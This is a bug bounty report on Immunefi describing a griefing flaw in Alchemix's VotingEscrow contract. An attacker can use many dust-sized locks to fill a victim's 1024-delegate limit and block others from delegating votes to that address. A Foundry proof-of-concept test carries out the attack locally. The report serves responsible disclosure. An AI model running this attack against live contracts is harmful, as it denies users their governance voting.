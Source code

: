 
# Griefing an account from getting votes delegated to it

Submitted on May 5th 2024 at 09:56:52 UTC by @Shahen for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30704

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
Assume there's three addresse's (Bob,Alex and Maya). Maya got `1e18` of `bpt tokens` which she locked in `VotingEscrow` contract and received a tokenId of the created `veALCX`. Maya is hoping to delegate her votes to Alex now. But Bob is a malicious actor, He locks `0.0000001 ether of bpt` in the `VotingEscrow` contract 1024 times.Therefore bob recieves 1024 tokenId's for a total of `0.0001024 ether of bpt` locked. 

Now bob delegates his votes from each of his tokenId's to Alex,So alex got votes from 1024 tokenId's. So what bob have done here is a grief, If you look at line 1110 under ` _moveAllDelegates()` internal function. There's a require condition that checks the total number of delegates the destioation(dst) has and if its <= `MAX_DELEGATES` which is 1024.  So since bob delegated votes from 1024 tokenId's to Alex, When Maya tries to delegate votes from her tokenId that she received from locking `1e18`, The delegation will revert as the require statement fails. So this is how bob griefed Alex from getting votes delegated to him. Basically bob used his `0.0001024*10**18 bpt` total locked deposit to grief Alex, But bob can use any amount less than `0.0001024*10**18 bpt`,I just used that in the test. Ofcourse Alex would be able to delegate and clear out the unworthy votes sent by bob,But Bob can do the griefing again.

Please refer to the below Foundry POC demonstrating the explained scenario.

## Vulnerability Details
Same as the Brief/Intro

## Impact Details
A malicious actor can grief another address from getting votes delegated to it by maxing out the `MAX_DELEGATES` limit. 

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol



## Proof of Concept

Paste the below testfile under src/test and run.

```
// SPDX-License-Identifier: GPL-3
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract VotingEscrowGriefTest is BaseTest {
    uint256 internal constant THREE_WEEKS = 3 weeks;
    address bob = address(0x1); // Griefer
    address alex = address(0x2); // victim
    address maya = address(0x3);

    function setUp() public {
        setupContracts(block.timestamp);
    }

    
   
    
    function test_delegate_grief() public {

// 1.) Bob has 0.0001024 bpt.

        hevm.startPrank(bob);
        deal(bpt,bob,0.0001024 ether);
        IERC20(bpt).approve(address(veALCX), 0.0001024 ether);
        
// 2.) Bob aquires multiple tokenId's by locking 0.0000001 bpt * 1024 times, So in total bob got <1024 tokenId's. 
// 3.) Since bob now has greater than or equal to 1024 tokenId's,Bob delegates votes from all of his tokenId's to Alex.    
        
        
        for (uint i = 0; i < 1024; i++) {
            uint256 tokenId = veALCX.createLock(0.0000001 ether, THREE_WEEKS, false);
            assertEq(veALCX.ownerOf(tokenId), bob);
            veALCX.delegate(alex);

        }

        
    

        hevm.stopPrank();
// 4.) Now Maya who locked 1e18 worth of bpt tries to delegate vote to alex.
// 5.) But the delegation revert as there's a limit of 1024 max delegates per dst account.
// 6.) Basically Bob delegated votes to Alex from 1024 different tokenId's, And since theres a max delagate limit of 1024,No one would be able to delegate votes to alex.
// 7.) This way Bob griefed Alex by getting votes delegated to him.
        hevm.startPrank(maya);
        deal(bpt,maya,1e18);
        IERC20(bpt).approve(address(veALCX), 1e18);
        uint256 tokenId = veALCX.createLock(1e18, THREE_WEEKS, false);
        assertEq(veALCX.ownerOf(tokenId), maya);
        hevm.expectRevert(abi.encodePacked("dst would have too many tokenIds"));
        veALCX.delegate(alex);
        hevm.stopPrank();
        

        
    }

    
}

